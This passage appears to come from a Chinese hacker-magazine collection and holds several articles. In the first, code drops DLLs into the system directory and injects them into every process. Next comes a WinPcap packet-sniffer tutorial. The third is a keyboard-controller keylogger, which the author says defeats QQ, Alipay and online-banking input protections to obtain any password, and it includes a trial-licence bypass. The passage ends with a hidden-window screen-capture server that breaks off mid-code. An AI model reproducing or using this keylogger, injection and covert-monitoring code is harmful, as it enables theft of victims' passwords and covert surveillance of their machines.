#else
Enable3dControlsStatic();
// Call this when linking to MFC statically
#endif
CEDPLoaderDlg dlg;
m_pMainWnd = &dlg;
int nResponse = dlg.DoModal();
if (nResponse == IDOK)
{
    // TODO: Place code here to handle when the dialog is dismissed with OK
}
else if (nResponse == IDCANCEL)
{
    // TODO: Place code here to handle when the dialog is dismissed with Cancel
}
// Since the dialog has been closed, return FALSE so that we exit the
// application, rather than start the application's message pump.
*/
```

```cpp
// (1) release resource
char system_path[MAX_PATH], system_path1[MAX_PATH];
GetSystemDirectory(system_path, MAX_PATH);
GetSystemDirectory(system_path1, MAX_PATH);
strcat(system_path, "\\ProcMon.dll");
strcat(system_path1, "\\CreateFileMon.dll");
HRSRC hSrc = FindResource(NULL, MAKEINTRESOURCE(IDR_DLL4), "DLL");
if (hSrc == NULL) return false;
OutputDebugString("找到资源");
OutputDebugString(system_path1);
HGLOBAL hGlobal = LoadResource(NULL, hSrc);
if (hGlobal == NULL) return false;
LPVOID lp = LockResource(hGlobal);
DWORD dwSize = SizeofResource(NULL, hSrc);
CFile file;
if (file.Open(system_path1, CFile::modeCreate | CFile::modeWrite))
{
    file.Write(lp, dwSize);
    file.Close();
}
OutputDebugString("生成文件");
OutputDebugString(system_path);
FreeResource(hGlobal);
HRSRC hSrc1 = FindResource(NULL, MAKEINTRESOURCE(IDR_DLL1), "DLL");
if (hSrc1 == NULL) return false;
OutputDebugString("找到资源");
OutputDebugString(system_path);
HGLOBAL hGlobal1 = LoadResource(NULL, hSrc1);
if (hGlobal1 == NULL) return false;
LPVOID lp1 = LockResource(hGlobal1);
DWORD dwSize1 = SizeofResource(NULL, hSrc1);
CFile file1;
if (file1.Open(system_path, CFile::modeCreate | CFile::modeWrite))
{
    file1.Write(lp1, dwSize1);
    file1.Close();
}
```

```cpp
// (2) list process 并且插入
HANDLE hkernel32; // 被注入进程的句柄
HANDLE hSnap;
PROCESSENTRY32 pe;
BOOL bNext;
pe.dwSize = sizeof(pe);
hSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
bNext = Process32First(hSnap, &pe);
while (bNext) {
    if (pe.th32ProcessID != 0 || pe.th32ProcessID != 4) {
        hkernel32 = OpenProcess(PROCESS_CREATE_THREAD |
                                PROCESS_VM_WRITE |
                                PROCESS_VM_OPERATION,
                                1,
                                pe.th32ProcessID);
        InjectDll(system_path, pe.th32ProcessID);
        InjectDll(system_path1, pe.th32ProcessID);
        OutputDebugString(pe.szExeFile);
    }
    bNext = Process32Next(hSnap, &pe);
}
CloseHandle(hSnap);
```

经上面的代码编译后，测试结果如图 5 和图 6 所示。

##### 3) CreateFileMon.dll

这个 DLL 文件也是用 detours 库写的，所以省略的部分大家可以看 ProcMon 部分的介绍。这里同时对 CreateFileA 和 CreateFileW 两个进行 Hook，代码如下。

```cpp
void WriteLog(TCHAR ch[]) {
    DetourCreateFileA
    DetourCreateFileW
}
```

也就是把得到的文件名记录到本地文件，代码如下。

```cpp
LPCTSTR record_lpFileName;
record_lpFileName = lpFileName;
WriteLog((char*)record_lpFileName);
OutputDebugString((char*)record_lpFileName);
HANDLE ret;
ret = Real_CreateFileA(lpFileName, dwDesiredAccess,
                       dwShareMode, lpSecurityAttributes,
                       dwCreationDisposition,
                       dwFlagsAndAttributes,
                       hTemplateFile);
return ret;

// 记录函数
void WriteLog(TCHAR ch[]) {
    DWORD dwsize = 0;
    char str[256] = "";
    strcat(str, ch);
    HANDLE hFile = Real_CreateFileA("c:\\createfile.log",
                                    GENERIC_WRITE | GENERIC_READ,
                                    FILE_SHARE_WRITE,
                                    NULL,
                                    OPEN_ALWAYS,
                                    FILE_ATTRIBUTE_NORMAL,
                                    0);
    if (hFile != INVALID_HANDLE_VALUE) {
        SetFilePointer(hFile, 0, 0, FILE_END);
        WriteFile(hFile, (LPCVOID*)str, strlen(str) + 1, &dwsize, FALSE);
        WriteFile(hFile, (LPCVOID)("\r\n"), sizeof("\r\n") + 1, &dwsize, FALSE);
    }
    CloseHandle(hFile);
}
```

经过上面的过程，文件监控的开发就算完成了，但还有很多事情要做。工作了这么长时间，给我的感觉是：开发不是很难，但是维护很困难，客户的要求一个跟着一个地变。他们不懂程序，所以很多事情可以没有约束地去提、去要求，但是作为开发人员就很郁闷了。好了，发牢骚的话就不多说了，只是给想进入程序员行列的兄弟们说说心里话。

### 利用 WinPcap 编写驱动 Sniffer


文／Swords

WinPcap 是 Windows 平台下的专业网络数据包捕获开发包，是为 Libpcap 在 Windows 平台下实现数据包捕获而设计的。在设计 WinPcap 时参考了 Libpcap，使用方法与 Libpcap 相似。使用 WinPcap 开发包，可以很容易地把在 Linux 下开发的基于 Libpcap 的程序移植到 Windows 平台下。WinPcap 是在 BSD 许可证下发布的，主要由 Lawrence Berkeley Laboratory 开发，其下载网址为 http://www.winpcap.org/。

#### 构成

WinPcap 由 3 个模块构成。第一个模块 NPF（Netgroup Packet Filter）是一个虚拟设备驱动程序文件，它的功能是过滤数据包，并把这些数据包原封不动地传给用户态模块。第二个模块 packet.dll 是一组用户级函数库，为 Win32 平台提供一个公共接口。不同版本的 Windows 系统都有自己的内核模块和用户层模块，Packet.dll 用于解决这些不同，调用 Packet.dll 的程序可以运行在不同版本的 Windows 平台上，而无需重新编译。第三个模块数据包高级驱动程序库（wpcap.dll）与操作系统无关，它提供了更高层、抽象的函数，含有诸如产生过滤器、用户级缓冲等高级功能。

#### 核心过程

- 1. 获得网卡的名称。
- 2. 设置网卡为混杂模式。
- 3. 截获数据包并保存为文件。
- 4. 分析数据包，格式化输出。

#### 代码分析

```c
#include <pcap.h>
#pragma comment(lib, "wpcap.lib")
/* 4 字节 IP 地址 */

typedef struct ip_address
{
    u_char byte1;
    u_char byte2;
    u_char byte3;
    u_char byte4;
} ip_address;

/*
// IP 包如下所示，请参见 RFC791.
...（IPv4 首部位图示意）...
*/

/* IPv4 头 */
typedef struct ip_header
{
    u_char  ver_ihl;        // 4位首部长度,4位IP版本号
    u_char  tos;            // 8位服务类型TOS
    u_short tlen;           // 16位总长度（字节）
    u_short identification; // 16位标识
    u_short flags_fo;       // 3位标志位,13位偏移
    u_char  ttl;            // 8位生存时间TTL
    u_char  proto;          // 8位协议（TCP、UDP或其他）
    u_short crc;            // 16位IP首部校验和
    ip_address saddr;       // 32位源IP地址
    ip_address daddr;       // 32位目的IP地址
    u_int   op_pad;         // 32位选项
} ip_header;

/*
// TCP 包如下所示，请参见 RFC793.
*/
```

| TCP Header Fields |  |
|---|---|
| Source Port | Destination Port |
| Sequence Number |  |
| Acknowledgment Number |  |
| Data Offset | Reserved \| U/A/P/R/S/F \| Window |
| Checksum | Urgent Pointer |
| Options | Padding |
| data |  |

```c
// 定义TCP首部
typedef struct tcp_header
{
    u_short sport;   // 16位源端口
    u_short dport;   // 16位目的端口
    u_int   seq;     // 32位序列号
    u_int   ack;     // 32位确认号
    u_char  lenres;  // 4位首部长度/6位保留字
    u_char  flag;    // 6位标志位
    u_short win;     // 16位窗口大小
    u_short sum;     // 16位校验和
    u_short urp;     // 16位紧急数据偏移量
    u_int   op_pad;  // 32位选项
} tcp_header;
```

| UDP Header Fields |  |
|---|---|
| Source Port | Destination Port |
| Length | Checksum |
| data octets |  |

```c
/* UDP header */
typedef struct udp_header
{
    u_short sport;   // 16位源端口
    u_short dport;   // 16位目的端口
    u_short len;     // 16位长度
    u_short crc;     // 16位校验和
} udp_header;
```

```c
// sniffer.c，定义控制台应用程序的入口点。
int main(int argc, char **argv)
{
    pcap_if_t* alldevs;
    pcap_if_t* d;
    int inum;
    int i = 0;
    pcap_t* fp;
    char *ofilename = "sniffer.txt";
    char errbuf[PCAP_ERRBUF_SIZE];
    u_int netmask;
    int res;
    struct pcap_pkthdr *header;
    const u_char *pkt_data;
    char packet_filter[] = "ip and tcp and udp";
    pcap_dumper_t *dumpfile;
    struct bpf_program fcode;
    ip_header* ih;
    tcp_header* th;
    udp_header* uh;
    u_int ip_len;
    u_short sport, dport;

    // 获得网络设备指针
    if (pcap_findalldevs_ex(PCAP_SRC_IF_STRING, NULL, &alldevs, errbuf) == -1)
    {
        fprintf(stderr, "pcap_findalldevs失败: %s\n", errbuf);
        exit(1);
    }

    // 枚举网卡信息
    for (d = alldevs; d; d = d->next)
    {
        printf("%d. %s", ++i, d->name);
        if (d->description)
            printf(" (%s)\n", d->description);
        else
            printf(" (无描述信息)\n");
    }

    if (i == 0)
    {
        printf("\n没发现任何网卡接口，请确认是否已经安装WinPcap库。\n");
        return -1;
    }

    printf("请输入网卡接口序号 (1-%d):", i);
    scanf("%d", &inum);

    if (inum < 1 || inum > i)
    {
        printf("\n接口号超出范围。\n");
        pcap_freealldevs(alldevs);
        return -1;
    }

    // 跳到选择的网卡
    for (d = alldevs, i = 0; i < inum - 1; d = d->next, i++);

    // 打开网卡
    if ((fp = pcap_open(d->name,
        65536,
        PCAP_OPENFLAG_PROMISCUOUS,
        1000,
        NULL,
        errbuf)) == NULL)
    {
        fprintf(stderr, "\nUnable to open the adapter. %s is not supported by WinPcap\n");
        pcap_freealldevs(alldevs);
        return -1;
    }

    // 检查链路层，本程序只简单地支持以太网
    if (pcap_datalink(fp) != DLT_EN10MB)
    {
        fprintf(stderr, "\n本程序只简单地支持以太网.\n");
        // 释放 alldevs 资源
        pcap_freealldevs(alldevs);
        return -1;
    }

    if (d->addresses != NULL)
    {
        // 取得一个网络接口的子网掩码
        netmask = ((struct sockaddr_in *)(d->addresses->netmask))->sin_addr.S_un.S_addr;
    }
    else
    {
        netmask = 0xffffffff;
    }

    // 编译过滤器
    if (pcap_compile(fp, &fcode, packet_filter, 1, netmask) < 0)
    {
        fprintf(stderr, "\n无法编译包过滤，请检查正则表达式.\n");
        pcap_freealldevs(alldevs);
        return -1;
    }

    // 设置过滤器
    if (pcap_setfilter(fp, &fcode) < 0)
    {
        fprintf(stderr, "\n设置过滤器失败.\n");
        pcap_freealldevs(alldevs);
        return -1;
    }

    printf("\nlistening on %s ...\n", d->description);
    pcap_freealldevs(alldevs);

    dumpfile = pcap_dump_open(fp, ofilename);
    if (dumpfile == NULL)
    {
        fprintf(stderr, "\n打开输出文件错误\n");
        pcap_close(fp);
        return -1;
    }

    while ((res = pcap_next_ex(fp, &header, &pkt_data)) >= 0)
    {
        if (res == 0) continue; // 超时继续
        pcap_dump((unsigned char *)dumpfile, header, pkt_data);

        ih = (ip_header *)(pkt_data + 14);
        ip_len = (ih->ver_ihl & 0x0f) * 4;

        if (ih->proto == 6) // TCP
        {
            th = (tcp_header *)((u_char *)ih + ip_len);
            sport = ntohs(th->sport);
            dport = ntohs(th->dport);
            printf("%d.%d.%d.%d:%d-> %d.%d.%d.%d:%d\n", ...);
        }
        else if (ih->proto == 17) // UDP
        {
            uh = (udp_header *)((u_char *)ih + ip_len);
            sport = ntohs(uh->sport); // 网络字节序转主机字节序
            dport = ntohs(uh->dport); // 网络字节序转主机字节序

            printf("%d.%d.%d.%d:%d-> %d.%d.%d.%d:%d\n",
                ih->saddr.byte1,
                ih->saddr.byte2,
                ih->saddr.byte3,
                ih->saddr.byte4,
                sport,
                ih->daddr.byte1,
                ih->daddr.byte2,
                ih->daddr.byte3,
                ih->daddr.byte4,
                dport);
        }
    }

    pcap_close(fp);
    pcap_dump_close(dumpfile);
    return 0;
}
```

#### 注意事项

- 1. 为了导入 `wpcap.dll`，每个程序必须包含 `pcap.h`。
- 2. 必须包含 `wpcap.lib` 库，否则无法链接成功。
- 3. 添加 `WPCAP` 和 `HAVE_REMOTE` 预定义，这很重要，否则会编译失败。
- 4. 有时我们也需要添加 `winsock2.h` 和 `ws2_32.lib` 库。

#### 后记

我在2004年的《黑客防线》杂志发表过《编写无驱动的 Sniffer》一文，该文有其他协议的详细分析，所以这里就不重复说明了，只是对代码进行了详细的说明。本文通过一个 Sniffer 实例介绍了 WinPcap 库，算是抛砖引玉吧。如果朋友们能通过本文进而精通 WinPcap 库编程，那么本文的目的就算是达到了。大家如果有什么问题，可以到黑客防线论坛与我交流。

[本文涉及的代码（程序），请见随书光盘]/BD

### 直接访问键盘控制芯片获取键盘记录

◎ 文／图 likz

键盘是用户和机器之间主要的硬件接口，看看键盘上的那些键就可知道它有多么的复杂了。键盘是我们隐私的源泉，我们各种信息的传递都要通过它。作为用户表现信息的媒介，很多怀有恶意目的的人都想截取我们的键盘输入。目前有很多方法可以做到，比如全局钩子、GetKeyboardStatus()、驱动过滤钩子等，但是如果要截取像 QQ 这种 Hook 键盘中断处理程序的保护技术，这些方法都显得无能为力。为此，我为大家介绍一种直接访问键盘控制芯片的方法，来实现对键盘输入数据的最底层读取。

如果我们知道了硬件的输入输出地址，就可以直接对它们进行访问了。键盘上有一个称为键盘编码器的处理器（Intel 8048 或兼容芯片），专门用来扫描收集所有按键按下和松开的状态数据（即扫描码）。当一个键被按下时，键盘发送的扫描码称为接通扫描码（Make code），或简称为接通码；当一个被按下的键放开时发送的扫描码被称为断开扫描码（Break code），或简称为断开码。

主机键盘控制器专门用来对接收到的键盘扫描码进行解码。因为每个按键的接通和断开码都是不同的，所以键盘控制器根据扫描码就可以确定用户在操作哪个键了。整个键盘上所有按键的接通和断开码就组成了键盘的一个扫描码集（Scan Code Set）。根据电脑的发展，目前已有 3 套扫描码集可供使用，它们分别是第一套扫描码集（原始 XT 键盘扫描码集）、第二套扫描码集（通常称为 AT 键盘扫描码集）、第三套扫描码集（PS/2 键盘扫描码集）。

AT 键盘预设发送的是第二套扫描码集。虽然如此，主机键盘控制器为了与 PC/XT 机的软件兼容起见，仍然会把所有接收到的第二套键盘扫描码转换成第一套扫描码，因此，我们从键盘控制器获取的通常为第一套扫描码集。

当一个键被按下时，我们可以从键盘控制器接收到一个 XT 键盘接通码。这个扫描码仅表示键盘上某个位置处的键被按下，但还没有对应到某个字符代码上。接通码通常都是一个位组宽度。例如，按下键“A”的接通码是 30（0x1E）。当一个按下的键被松开时，从键盘控制器端口收到的就是一个断开码。对于 XT 键盘（即键盘控制器程序设计端口收到的扫描码），断开码是其接通码加上 0x80。例如，上述“A”键的断开码就是“0x80 + 0x1E = 0x9E”。

图1列出了 Scan Code Set 1 中的所有扫描码，我们写程序时需要用到！

Scan Code Set 1 键盘扫描码表（图1）

图1

剩下的问题是我们如何获取键盘的扫描码，并且将它们翻译出来了。比如我们如何获取扫描码 1E，并且能将它翻译为 A 键被按下。键盘控制芯片给我们使用的 PC 机提供了两个可访问的 I/O 端口，一个是 0x60，一个是 0x64，我们能够读取键盘缓冲区中的数据，也能发送控制命令。打开设备管理器，如图2所示，我们可以清晰地看到它们。0x60 为数据端口，0x64 为命令端口。


图2

通常情况下，我们从 0x60 读取的数据就是键盘的扫描码，而从 0x64 读取的数据为键盘的状态字。状态字的各位定义如下：

- Bit7: 从键盘获得的数据奇偶校验错误；
- Bit6: 接收超时，置1；
- Bit5: 发送超时，置1；
- Bit4: 为1，键盘没有被禁止。为0，键盘被禁止；
- Bit3: 为1，输入缓冲器中的内容为命令；为0，输入缓冲器中的内容为数据；
- Bit2: 系统标志，加电启动置0，自检通过后置1；
- Bit1: 输入缓冲器满置1，8042 取走后置0；
- Bit0: 输出缓冲器满置1，CPU 读取后置0。

接下来我们再说一下端口的操作方法。Windows NT 系统是不允许直接操作端口的，只有通过驱动程序才能实现。可供选择的驱动程序有免费开源的 winio、windriver 等。由于我的毕业设计涉及视频采集卡驱动程序的设计，所以就以 windriver 为例来说明端口操作方法。安装好 windriver 之后，在“\samples\basic_io\”目录下有一个 basic_io.c，我们可以直接使用它提供的端口操作函数读写端口。注意修改 IO_init() 函数添加如下语句。

```c
WD_LICENSE lic;
strcpy(lic.cLicense, 你的licenseString);
WD_License(hWD, &lic);
```

这样，我们使用的 windriver 驱动就去掉了 30 天试用期限的限制了。它可以提供的函数如下，有了这些函数，我们就可以直接读写端口了。

```c
BYTE IO_inp(DWORD dwIOAddr)
// 从dwIOAddr读取一个字节
WORD IO_inpw(DWORD dwIOAddr)
// 从dwIOAddr读取两个字节
DWORD IO_inpd(DWORD dwIOAddr)
// 从dwIOAddr读取四个字节
void IO_outp(DWORD dwIOAddr, BYTE bData)
// 将一个字节的bData写入dwIOAddr
void IO_outpw(DWORD dwIOAddr, WORD wData)
// 将两个字节的bData写入dwIOAddr
void IO_outpd(DWORD dwIOAddr, DWORD dwData)
// 将四个字节的bData写入dwIOAddr
```

为了方便大家测试，我给大家提供一个有趣的例子。通过读写 I/O 端口控制键盘上的 Num Lock、Caps Lock、Scroll Lock 这 3 个 LED 指示灯。向 0x60 端口发送控制命令即可控制它们的亮灭。控制 LED 的命令是 0xED，我们可以在 LED 没亮之前先发送 0xED 命令到 0x60 端口，然后立即发送另一个 BYTE 指示设置哪个 LED。第 2 个 BYTE 用最低的 3 个字节设置这 3 个指示灯。

问题是这种直接的方法没有考虑键盘控制器是否准备好接收命令。通常情况下，我们必须等待芯片准备接收命令时再发送命令控制字。如果芯片没有准备好，将不会产生任何效果。另外，即使我们读取 0x64 端口的状态字，确定键盘处于准备接收命令状态，但是我们也不能保证随后发送控制命令的操作不会受到键盘本身驱动程序读写端口引起的干扰。因此，我们可以采用如下的测试程序。

```c
void light()
{
    BYTE status;
    while(1)
    {
        status = IO_inp(0x00000064);
        printf("%x", status);
        IO_outp(0x00000060, 0xed);
        IO_outp(0x00000060, 0x07);
        Sleep(100);
    }
}
```

这样，键盘正确接收到我们控制命令的概率就比较大了。程序运行几十秒，就会发现键盘上的 3 个指示灯突然全部亮了起来。

啰嗦了这么多，大家对端口的操作应该有了基本了解了，下面我们开始分析计算机是如何处理我们的按键操作的。当我们按下或者释放某一按键时，键盘控制器将会在 IRQ1 号线上送出中断信号，8259A 中断控制器将此中断信号与其他外部设备通过其余的 IRQ 线送来的中断信号进行判优、排队，最后将此信息送给 CPU。CPU 在一条指令运行结束后，会查询一下是否有中断信号送来，如果此时发现有中断信号送来，就会通过此中断信号的中断向量在中断描述符表中查询应当使用哪一个中断处理程序。当找到中断处理程序后，CPU 将调用此中断处理程序进行中断处理。

## 扫描监控类

键盘扫描码已经被放到输出缓冲区中（0x60），中断处理程序所要做的就是从输入缓冲区拿走数据并且翻译数据。所以我们可以直接读取输出缓冲区，即 0x60 端口直接获取键盘数据的扫描码，并且不会干扰中断处理程序的正常工作。注意，我们在轮询扫描码时最好不要读取 0x64 端口，尽管从该端口可以读取键盘输入输出缓冲区的状态信息（满或空），但是从 0x64 读取状态字会引起 0x60 端口上数据的清除，可能会导致键盘驱动无法读取输入数据。

尽管键盘控制器提供了很多操作命令，但我们最好不要往 0x60 或 0x64 端口直接写入数据，否则可能产生意想不到的结果。比如 `IO_outp(0x00000064, 0xfe)` 操作将会引起操作系统的立即重启（警告：实验前请先做好保存工作，造成文件未保存数据丢失可别说我没提醒哦！），效果如同手动按了机箱上的 Reset 键，这是由于键盘控制器可以直接控制 CPU Reset 管脚电平。

有了以上知识，我们就可以着手写一个直接读取键盘控制寄存器的键盘记录程序了。因为我们要将扫描码翻译出来，所以我使用 make code 作为数组下标索引打印键的名称。

```c
char keycode[55][5] = {"ESC","1","2","3","4","5","6","7", ... ,"0"};
```

这里只定义了前 53 个扫描码的键名称，对于一般的只记录字母、符号的键盘记录，这些信息已经足够了。以下为从 0x60 轮询扫描码的程序代码。

```c
void Log(){
  BYTE retData;
  BYTE keyDown; // 键按下数据
  BYTE keyUp;   // 键弹起数据
  ...
  retData = IO_inp((DWORD)0x00000060);
  ...
}
```

```c
if(!(retData&0x80)){
  keyDown=retData;
} // 有键按下
if(retData&0x80){
  keyUp=retData&0x7f;
  if(keyUp==keyDown){
    printf("%s", keycode[keyDown]);
    keyUp=0;
    keyDown=1;
  }
}
Sleep(50);
```

因为程序是从最底层获取键盘扫描码数据的，所以对于使用 PS/2 键盘的用户，可以截取到他们在任何安全保护情况下的输入信息，包括 QQ nProtect 技术的安全控件、支付宝安全控件、网上银行安全控件等。鉴于巨大危害性，我这里只提供了演示程序，效果如图 3 和图 4 所示。


图 3


图 4

至于其他更详细的应用，大家可以在我提供的程序的基础上进行扩充。只要我们能够直接访问键盘控制芯片，那么任它再有效的输入保护措施，对我们来说都是如同虚设，想要什么密码就可以获得什么密码。

## 小波变换 + 线性预测 + LZ77 算法

### 实现极速屏幕监控

文／图 likz


捕获屏幕的关键技术是屏幕截取和图像压缩算法。一般捕获屏幕的方法有 3 种，分别是定时扫描、系统钩子和镜像显示驱动程序。

定时扫描是在程序开始运行的时候设置一个定时器，这个定时器的时间间隔是一个可以设置的程序参数，例如用户设置为 0.1 秒，那么每隔 0.1 秒就触发一次定时器事件。每次时间被触发后，扫描屏幕并与前一次扫描结果比较，从而获取变化区域。

系统钩子是 VNC 使用的变化屏幕截取方法。具体实现的过程是：程序运行的时候先加载几个全局类型的钩子，这几个钩子捕获了系统发给所有窗口程序的消息，根据这些消息得到窗口的句柄，然后再得到窗口在屏幕上的区域，这个区域就为屏幕更新区域。

镜像显示驱动程序是一种利用运行在内核态的显示驱动程序获取屏幕更新的特殊方法。镜像显示驱动程序是一种特殊的显示驱动程序，它把一般显示驱动程序对真实物理设备的绘图操作映射到虚拟设备上。采用镜像显示驱动程序的方法能获得最高的性能，因为它能得到确切的屏幕改变区域。

本文的重点不是高效的屏幕截取方法，而是高效的图像压缩方法。下面先介绍一下无损压缩算法的选择，目前可供选择的方案有 Huffman 和 ZLIB。静态 Huffman 算法需要对原始数据进行两次扫描，故压缩速度较慢。ZLIB 是从 LZ77/78 派生出来的，是一种无损压缩，它的优点是对颜色少的图形，如电脑桌面上的窗口、文字等，能够获得很高的压缩率。

本程序中对传输的图像进行线性预测后，符合该项要求，故本程序选择了 ZLIB 作为压缩和解压缩的函数库。另外，HEXTILE 也是一种专门针对电脑桌面的有效压缩算法，由 AT&T 开发。它把屏幕更新区域分成 16×16 像素的小方块，对电脑屏幕上出现的一般对象，如窗口、图标、菜单、文字等，可以获得不少纯色小方块，这样就可以获得极高的压缩率，而且与 ZLIB 相比，压缩和解压缩的速度很快。

由于本程序的重点不是在屏幕截取部分，故该部分使用了 GDI 方式获取屏幕位图。

对于位图数据，使用了较为先进的一层小波变换的有损压缩方法进行压缩。由于小波变换需要进行大量的浮点运算，故本算法中选择基于整数提升的小波变换方法和仅保留 LL 频率部分的压缩算法。对于有损压缩后的图像数据，使用差分图像的线性预测方式，得到颜色较为单调的位图数据，刚好满足 ZLIB 实现高压缩率数据的要求，从而实现极小的数据传输量。

鉴于一层小波变换的实现过程过于复杂，我就不跟大家多啰嗦了，下面我们就开始把理论转换为现实吧。

首先说一下服务端程序的实现。打开 Visual C++ 6.0，建立一个基于控制台的应用程序，注意选择程序支持 MFC 库。为了程序运行时不弹出控制台窗口，我使用了如下的预编译指令。

```c
#pragma comment(linker, "/subsystem:\"windows\" /entry:\"mainCRTStartup\"")
```

接下来定义视频采集程序需要的全局变量。为了使接收程序能区分视频采集程序发送的每一帧数据，我们还需要定义数据报头结构，其代码如下。

```c
typedef struct tag_PicHeader
{
    unsigned long FrameId;
    unsigned long SrcLen;
    unsigned long DesLen;
} PicHeader;
```

其中 FrameId 为发送的帧的索引号，第一帧帧号为 0。SrcLen 为未经过压缩的发送图像数据的大小，DesLen 为压缩后图像数据的大小，SrcLen 和 DesLen 为图像数据解压所需要的参数。对于网络数据包格式定义，我们一定要注意 VC 默认的结构体 32 位内存分配自动对齐问题，因为该结构体中每个成员变量都是 4 个字节，故发送接收数据时不会出错。此外，我们还需定义以下的全局变量。

```c
BYTE* g_pFileData = NULL;      // bmp 文件数据指针
BYTE* g_pData = NULL;          // bmp 颜色数据指针
BYTE* g_pDataSave = NULL;      // 存放前一帧位图数据
LPBITMAPINFOHEADER g_lpBitmapInfoHeader = NULL; // 位图信息头指针
LPBITMAPFILEHEADER g_lpBitmapFileHeader = NULL; // 文件头指针
LPBITMAPINFO g_lpBitmapInfo = NULL;             // 位图信息指针
int g_biWidth = 0;             // 位图宽度
int g_biHeight = 0;            // 位图高度
unsigned long ByteOfPic;       // 记录小波变换压缩后图像数据的大小
SOCKET s;                      // 全局套接字
```

```c
bf.bfOffBits = sizeof(bi.bmiHeader) + sizeof(bf);
bf.bfReserved1 = 0;
bf.bfReserved2 = 0;
CFile f(filename, CFile::modeCreate|CFile::modeWrite);
f.Write(&bf, sizeof(bf));               // 写入位图文件头
f.Write(&bi, sizeof(bi.bmiHeader));     // 写入位图信息头
f.Write(bits, bitsize);                 // 写入位图 RGB 数据
f.Close();
delete[] bits;
delete bmp;
delete memDC;
}
```

服务端程序在初始化的时候必须获取视频输出窗口区域的大小，然后获取视频输出的图像数据。为了便于对截取后的图像进行单独的传送且方便大家修改功能，我将程序尽量模块化，定义了如下的函数来保存视频窗口输出的图像数据。

```c
void SaveBitmapToFile(CDC* pDC, CRect rect, CString filename)
```

其中 pDC 为视频输出窗口设备上下文指针，rect 为视频输出窗口区域的大小，filename 为输入图像保存的文件名。函数的具体实现如下。

```c
void SaveBitmapToFile(CDC* pDC, CRect rect, CString filename)
{
    CDC* memDC = new CDC;
    memDC->CreateCompatibleDC(pDC);
    CBitmap* bmp = new CBitmap;
    bmp->CreateCompatibleBitmap(pDC, rect.Width(), rect.Height());
    CBitmap* oldbitmap = memDC->SelectObject(bmp);
    // 开始复制 pDC 图像数据到 MemDC
    if(!memDC->BitBlt(0,0,rect.Width(),rect.Height(),pDC,0,0,SRCCOPY))
    {
        AfxMessageBox("BitBlt Error!");
        return;
    }
    BITMAPINFO bi;
    bi.bmiHeader.biSize = sizeof(bi.bmiHeader);
    bi.bmiHeader.biWidth = rect.Width();
    bi.bmiHeader.biHeight = rect.Height();
    bi.bmiHeader.biPlanes = 1;
    bi.bmiHeader.biBitCount = 24;
    bi.bmiHeader.biCompression = BI_RGB;
    ...
    ::GetDIBits(memDC->m_hDC, *bmp, 0, rect.Height(), bits, &bi, DIB_RGB_COLORS);
    BITMAPFILEHEADER bf;
    bf.bfType = (int)'M' * 256 + 'B';
    bf.bfSize = bitsize + 14 + sizeof(BITMAPINFOHEADER);
}
```

以上函数使用了“::GetDIBits”来获取视频窗口输出的视频帧，注意在调用该 API 函数之前要先初始化 BITMAPINFO 结构体。因为使用 3 个字节保存视频帧的每一个像素，所以位图数据不含有调色板信息。

图像数据保存完之后，就可以直接对图像文件进行压缩处理了。我们定义如下的函数来获取保存的位图文件的数据。

```c
BOOL OpenFile(char* filename)
{
    FILE *file;
    file = fopen(filename, "rb");
    if(!file) return FALSE;
    // 打开位图文件
    fpos_t posend, posbegin;
    fseek(file, 0, SEEK_END);
    fgetpos(file, &posend);
    fseek(file, 0, SEEK_SET);
    fgetpos(file, &posbegin);
    size_t filesize = (size_t)(posend - posbegin);
    // 获取位图文件数据大小
    if(g_pFileData == NULL)
        g_pFileData = (unsigned char*)malloc(filesize);
    if(g_pFileData == NULL) return FALSE;
    memset(g_pFileData, 0, filesize);
    size_t sizeread = fread(g_pFileData, sizeof(unsigned char), filesize, file);
    // 读取位图文件数据
    if(sizeread != filesize)
    {
        free(g_pFileData);
        g_pFileData = NULL;
        fclose(file);
        return FALSE;
    }
    // 如果文件非 bmp 文件，则函数返回错误
    if(g_pFileData[0] != 'B' || g_pFileData[1] != 'M')
    {
        free(g_pFileData);
        g_pFileData = NULL;
        fclose(file);
        return FALSE;
    }
    fclose(file);
    return TRUE;
}
```

调用该函数后，因为位图的信息头数据我们已经获取，所以以后获取的视频数据只须填充 g_pData 数组即可。

服务端程序的关键是对获取的视频帧数据基于小波变换的图像压缩。因为小波变换处理过程需要经过一个浮点运算过程，计算量较大，故程序使用整数来提升小波变换效率，并且使用采集时直接丢弃高频分量的简单压缩方法，以尽量减少小波变换压缩过程需要的大量计算。具体实现代码如下。

成功读取到位图文件的数据后，接下来我们就要获取它的各种属性值了，实现的函数如下。

```c
void GetPro()
{
    g_lpBitmapInfoHeader = (LPBITMAPINFOHEADER)(g_pFileData + 14);
    g_lpBitmapFileHeader = (LPBITMAPFILEHEADER)(g_pFileData + 0);
    g_pData = g_pFileData + g_lpBitmapFileHeader->bfOffBits;
    g_biHeight = g_lpBitmapInfoHeader->biHeight;
    g_biWidth = g_lpBitmapInfoHeader->biWidth;
    g_lpBitmapInfo = (LPBITMAPINFO)(g_pFileData + 14);
}
```

以上的函数为初始化视频采集程序时所需要的函数，因为位图文件属性的获取是通过读取外部文件的方式获取的，所以效率比较低。为了提高屏幕视频帧的采集速率，我们还需要直接将视频帧数据读入内存。

```c
void SaveBits(CDC* pDC, CRect rect)
{
    CDC* memDC = new CDC;
    memDC->CreateCompatibleDC(pDC);
    CBitmap* bmp = new CBitmap;
    bmp->CreateCompatibleBitmap(pDC, rect.Width(), rect.Height());
    memDC->SelectObject(bmp);
    memDC->BitBlt(0, 0, rect.Width(), rect.Height(), pDC, 0, 0, SRCCOPY);

    BITMAPINFO bi;
    bi.bmiHeader.biSize = sizeof(bi.bmiHeader);
    bi.bmiHeader.biWidth = rect.Width();
    bi.bmiHeader.biHeight = rect.Height();
    bi.bmiHeader.biPlanes = 1;
    bi.bmiHeader.biBitCount = 24;
    bi.bmiHeader.biCompression = BI_RGB;
    bi.bmiHeader.biSizeImage = 0;
    bi.bmiHeader.biXPelsPerMeter = 0;
    bi.bmiHeader.biYPelsPerMeter = 0;
    bi.bmiHeader.biClrUsed = 0;
    bi.bmiHeader.biClrImportant = 0;

    ::GetDIBits(memDC->m_hDC, *bmp, 0, rect.Height(), g_pData, &bi, DIB_RGB_COLORS);
    memDC->DeleteDC();
    bmp->DeleteObject();
    delete bmp;
    delete memDC;
}
```

```c
void YaSuo()
{
    LPBITMAPINFOHEADER lpBitmapInfoHeader = (LPBITMAPINFOHEADER)(g_pFileData + 14);
